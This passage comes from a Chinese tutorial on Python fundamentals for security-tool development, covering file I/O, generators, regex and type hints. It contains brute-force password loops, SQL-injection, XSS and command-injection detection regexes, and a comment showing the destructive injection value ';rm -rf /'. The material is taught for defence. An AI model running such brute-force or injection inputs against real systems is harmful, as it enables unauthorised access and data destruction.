# 原则 4：用 suppress 处理预期的异常
from contextlib import suppress
with suppress(PermissionError):
    os.remove(temp_file)  # 文件不存在也不报错
```

### 2.6 文件操作

安全工具需要读写字典文件、配置文件、扫描结果、日志等。Python 3 的 `pathlib` 和 `open()` 函数提供了完整的文件操作能力。

#### 2.6.1 基础文件操作

```python
# with 语句确保文件正确关闭
# 读取
with open("wordlist.txt", "r", encoding="utf-8") as f:
    for line in f:         # 逐行读取，内存友好
        password = line.strip()
        try_login(username, password)

# 读取全部内容
with open("config.json", "r") as f:
    config = json.load(f)  # 直接解析 JSON

# 写入
with open("results.csv", "w", encoding="utf-8") as f:
    f.write("host,port,status\n")
    for host, port, status in results:
        f.write(f"{host},{port},{status}\n")

# 追加写入
with open("scan.log", "a") as f:
    f.write(f"[{datetime.now()}] 扫描完成\n")
```

#### 2.6.2 pathlib 现代路径操作

```python
from pathlib import Path

# 路径构建（自动处理不同操作系统的路径分隔符）
base_dir = Path("/opt/security-tools")
log_file = base_dir / "logs" / "scan.log"  # 用 / 运算符拼接路径

# 常用操作
log_file.exists()         # 是否存在
log_file.is_file()        # 是否是文件
log_file.is_dir()         # 是否是目录
log_file.suffix           # 文件扩展名: ".log"
log_file.stem             # 不含扩展名的文件名: "scan"
log_file.name             # 完整文件名: "scan.log"
log_file.parent           # 父目录: PosixPath('/opt/security-tools/logs')
log_file.stat().st_size   # 文件大小（字节）

# 读写
content = log_file.read_text(encoding="utf-8")
log_file.write_text("new content", encoding="utf-8")
data = log_file.read_bytes()  # 二进制读取

# 遍历目录
for py_file in base_dir.rglob("*.py"):  # 递归查找所有 .py 文件
    print(py_file)

# 创建目录
(base_dir / "output" / "reports").mkdir(parents=True, exist_ok=True)
```

#### 2.6.3 常用文件格式处理

```python
import json
import csv
import configparser

# JSON：API 响应、配置文件、扫描结果的标准格式
# 读取
with open("config.json") as f:
    config = json.load(f)

# 写入
with open("results.json", "w") as f:
    json.dump(results, f, indent=2, ensure_ascii=False)

# 字符串转换
json_str = json.dumps(results, indent=2)
parsed = json.loads(json_str)

# CSV：批量数据导出
with open("targets.csv", newline="") as f:
    reader = csv.DictReader(f)
    for row in reader:
        print(row["ip"], row["port"])

with open("output.csv", "w", newline="") as f:
    writer = csv.writer(f)
    writer.writerow(["host", "port", "status"])
    writer.writerows(results)

# INI 配置文件
config = configparser.ConfigParser()
config.read("settings.ini")
timeout = config.getint("scanner", "timeout", fallback=5)
```

### 2.7 生成器与迭代器

生成器是 Python 中处理大数据集的核心机制。扫描数万个端口、处理大型日志文件、生成大量 payload——这些场景如果把所有数据加载到内存会导致 OOM（内存溢出），生成器通过惰性求值解决这个问题。

#### 2.7.1 生成器函数

```python
def port_range(start=1, end=65535):
    """生成器：逐个产生端口号，不会一次性创建包含 65535 个元素的列表"""
    for port in range(start, end + 1):
        yield port  # yield 暂停函数，下次调用从这里继续

# 使用生成器
for port in port_range(1, 1024):
    scan_port(target, port)
    # 内存中始终只有一个端口号，而不是 1024 个

# 生成器带状态
def fibonacci_ports():
    """用斐波那契数列生成端口号（演示生成器的状态保持）"""
    a, b = 1, 1
    while True:
        if a <= 65535:
            yield a
        else:
            return  # 生成器结束
        a, b = b, a + b
```

#### 2.7.2 生成器表达式

```python
# 列表推导式：一次性创建所有元素，占用 O(n) 内存
all_ports = [port for port in range(1, 65536)]  # 内存中 65535 个整数

# 生成器表达式：惰性求值，占用 O(1) 内存
port_gen = (port for port in range(1, 65536))   # 内存中只有生成器对象

# 生成器表达式可以直接传给函数
open_count = sum(1 for port in port_gen if scan_port(target, port))
first_open = next(port for port in range(1, 65536) if scan_port(target, port))
```

#### 2.7.3 itertools 工具库

```python
import itertools

# 组合生成：密码字典生成
chars = "abc123"
# 所有 4 字符组合
for combo in itertools.product(chars, repeat=4):
    password = "".join(combo)
    try_password(target, password)

# 排列组合
ports = [22, 80, 443]
for pair in itertools.combinations(ports, 2):
    print(f"测试端口组合: {pair}")

# 链接多个迭代器
scanned_a = scan_network("192.168.1.0/24")
scanned_b = scan_network("10.0.0.0/24")
for host in itertools.chain(scanned_a, scanned_b):
    process(host)

# 分组
results = [
    {"host": "192.168.1.1", "status": "open"},
    {"host": "192.168.1.1", "status": "closed"},
    {"host": "192.168.1.2", "status": "open"},
]
results.sort(key=lambda r: r["host"])
for host, group in itertools.groupby(results, key=lambda r: r["host"]):
    statuses = [r["status"] for r in group]
    print(f"{host}: {statuses}")
```

### 2.8 正则表达式

正则表达式是安全开发中提取、匹配、验证文本的核心工具。从日志中提取 IP 地址、验证邮件格式、解析 HTTP 响应、检测漏洞特征——都离不开正则。

#### 2.8.1 基础语法

```python
import re

# 常用模式
text = "服务器 192.168.1.100:8080 返回状态码 200，耗时 0.35s"

# 提取 IP 地址
ip_pattern = r"\b(?:\d{1,3}\.){3}\d{1,3}\b"
ip = re.search(ip_pattern, text).group()  # "192.168.1.100"

# 提取所有数字
numbers = re.findall(r"\d+", text)  # ['192', '168', '1', '100', '8080', '200', '35']

# 提取端口号（冒号后的数字）
port_match = re.search(r":(\d+)", text)
port = port_match.group(1)  # "8080"

# 分组提取
log_line = '[2024-01-15 10:30:00] GET /admin HTTP/1.1 403 1234'
pattern = r"\[(.+?)\]\s+(\w+)\s+(\S+)\s+HTTP/\S+\s+(\d+)"
match = re.search(pattern, log_line)
if match:
    timestamp, method, path, status = match.groups()
    # timestamp='2024-01-15 10:30:00', method='GET', path='/admin', status='403'
```

#### 2.8.2 安全场景常用正则

```python
# IP 地址匹配（精确版，排除 256+ 的无效 IP）
IP_PATTERN = r"\b(?:(?:25[0-5]|2[0-4]\d|[01]?\d\d?)\.){3}(?:25[0-5]|2[0-4]\d|[01]?\d\d?)\b"

# URL 匹配
URL_PATTERN = r"https?://[^\s<>\"']{1,2048}"

# 邮箱匹配
EMAIL_PATTERN = r"[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}"

# SQL 注入特征检测
SQLI_PATTERNS = [
    r"(?i)(?:union\s+select|or\s+1\s*=\s*1|'\s*or\s*')",
    r"(?i)(?:--|#|/\*)",  # SQL 注释
    r"(?i)(?:drop\s+table|insert\s+into|delete\s+from)",
]

# XSS 特征检测
XSS_PATTERNS = [
    r"<script[^>]*>",
    r"javascript:",
    r"on\w+\s*=",  # 事件处理器 onclick=, onerror= 等
]

# 路径遍历检测
PATH_TRAVERSAL_PATTERN = r"(?:\.\./|\.\.\\){2,}"

# 命令注入检测
CMD_INJECTION_PATTERN = r"[;&|`$]|\$\(|`[^`]+`"
```

#### 2.8.3 正则高级用法

```python
# 编译正则提升性能（重复使用时）
email_re = re.compile(EMAIL_PATTERN)

# findall 与 finditer
# findall 返回字符串列表
emails = email_re.findall("联系 admin@test.com 或 user@evil.org")

# finditer 返回 match 对象迭代器（可获取位置信息）
for match in email_re.finditer("发送到 admin@test.com 和 user@evil.org"):
    print(f"找到邮箱: {match.group()}，位置: {match.start()}-{match.end()}")

# 替换
cleaned = re.sub(r"[<>\"';&|]", "", user_input)  # 过滤危险字符
anonymized = re.sub(IP_PATTERN, "X.X.X.X", log_text)  # 匿名化 IP

# 预编译 + 标志位
case_insensitive = re.compile(r"admin", re.IGNORECASE)
multiline = re.compile(r"^SELECT", re.MULTILINE)
dotall = re.compile(r"<script>.*?</script>", re.DOTALL)  # . 匹配换行

# 命名分组
pattern = r"(?P<method>\w+)\s+(?P<path>\S+)\s+HTTP/(?P<version>\d\.\d)"
match = re.search(pattern, "GET /admin HTTP/1.1")
print(match.group("method"))   # GET
print(match.group("path"))     # /admin
print(match.groupdict())       # {'method': 'GET', 'path': '/admin', 'version': '1.1'}
```

### 2.9 类型提示

类型提示（Type Hints）是 Python 3.5+ 引入的特性，不改变运行时行为，但能显著提升代码可读性、IDE 支持和静态检查能力。在团队协作开发安全工具时，类型提示是必不可少的。

#### 2.9.1 基础类型标注

```python
from typing import Optional, Union, List, Dict, Tuple, Set, Any

# 变量标注
host: str = "192.168.1.1"
port: int = 80
timeout: float = 5.0
is_open: bool = True
results: dict = {}

# 函数标注
def scan_port(host: str, port: int, timeout: float = 1.0) -> bool:
    """扫描端口并返回是否开放"""
    ...

# 可选参数（None 是合法值）
def connect(host: str, port: int, proxy: Optional[str] = None) -> socket.socket:
    ...

# 联合类型（多种类型都合法）
def parse_port(value: Union[str, int]) -> int:
    return int(value)

# Python 3.10+ 简写
def parse_port(value: str | int) -> int:
    return int(value)

# 复杂类型
def scan_network(
    targets: List[str],
    ports: List[int],
    timeout: float = 1.0
) -> Dict[str, Dict[int, str]]:
    """返回 {host: {port: status}}"""
    ...

# 使用 TypedDict 定义精确的字典结构
from typing import TypedDict

class ScanResult(TypedDict):
    host: str
    port: int
    status: str
    service: Optional[str]
    banner: Optional[str]

def process_result(result: ScanResult) -> None:
    print(f"{result['host']}:{result['port']} -> {result['status']}")
```

#### 2.9.2 类型检查工具

```bash
# mypy：最流行的静态类型检查器
pip install mypy
mypy my_security_tool/ --strict

# pyright：微软出品，速度更快
pip install pyright
pyright my_security_tool/

# 在 CI 中集成类型检查
# .github/workflows/lint.yml 中添加 mypy 步骤
```

### 2.10 常见误区与最佳实践

#### 2.10.1 新手最常犯的错误

```python
# 误区 1：可变默认参数
# ✗ 错误：列表在函数定义时创建一次，所有调用共享
def add_target(target, targets=[]):
    targets.append(target)
    return targets  # 多次调用会累积！

# ✓ 正确：用 None 作为默认值
def add_target(target, targets=None):
    if targets is None:
        targets = []
    targets.append(target)
    return targets

# 误区 2：循环中修改列表
# ✗ 跳过元素或 IndexError
items = [1, 2, 3, 4, 5]
for item in items:
    if item % 2 == 0:
        items.remove(item)  # 修改正在遍历的列表

# ✓ 正确：遍历副本或用推导式
items = [item for item in items if item % 2 != 0]

# 误区 3：str 和 bytes 混淆
# ✗ 网络数据是 bytes，不能直接当 str 用
data = sock.recv(1024)  # bytes
text = data.upper()     # 报错！bytes 没有 str 的方法

# ✓ 正确
text = data.decode("utf-8").upper()

# 误区 4：== 和 is 混淆
# ✗ 用 == 比较 None、True、False
if result == None:
    pass
# ✓ 用 is
if result is None:
    pass

# 误区 5：except 吞掉所有异常
# ✗
try:
    do_something()
except:
    pass  # KeyboardInterrupt、SystemExit 都被吞掉

# ✓
try:
    do_something()
except (ConnectionError, TimeoutError) as e:
    logger.warning(f"操作失败: {e}")
```

#### 2.10.2 安全编码注意事项

```python
# 1. 输入验证：永远不要信任外部输入
def parse_port(user_input: str) -> int:
    """严格验证端口输入"""
    try:
        port = int(user_input)
    except ValueError:
        raise ValueError(f"无效端口: {user_input}")
    if not 1 <= port <= 65535:
        raise ValueError(f"端口超出范围: {port}")
    return port

# 2. 避免 eval/exec
# ✗ 极度危险
eval(user_input)  # 用户可以执行任意代码
exec(f"result = {user_input}")

# ✓ 安全替代
import ast
# 如果必须解析字面量，用 ast.literal_eval
data = ast.literal_eval("{'key': 'value'}")  # 只允许字面量，不允许函数调用

# 3. 命令注入防护
# ✗
os.system(f"ping {user_input}")  # 用户输入 ;rm -rf / 就完了

# ✓ 使用列表参数，不经过 shell
subprocess.run(["ping", "-c", "3", user_input], capture_output=True)

# 4. 临时文件安全
import tempfile
# ✗ 有竞态条件
tmp = "/tmp/my_tool_temp"
# ✓ 使用 tempfile
with tempfile.NamedTemporaryFile(mode="w", suffix=".txt", delete=True) as f:
    f.write(data)
    f.flush()
    process_file(f.name)
# 退出 with 后文件自动删除

# 5. 日志中不记录敏感信息
# ✗
logger.info(f"登录成功: {username}/{password}")
# ✓
logger.info(f"登录成功: {username}")
```

### 2.11 知识体系总览



掌握以上 Python 语言基础，你就具备了编写安全工具的核心能力。下一节将在此基础上深入网络编程——socket 编程、HTTP 协议处理、异步并发等实战技能。
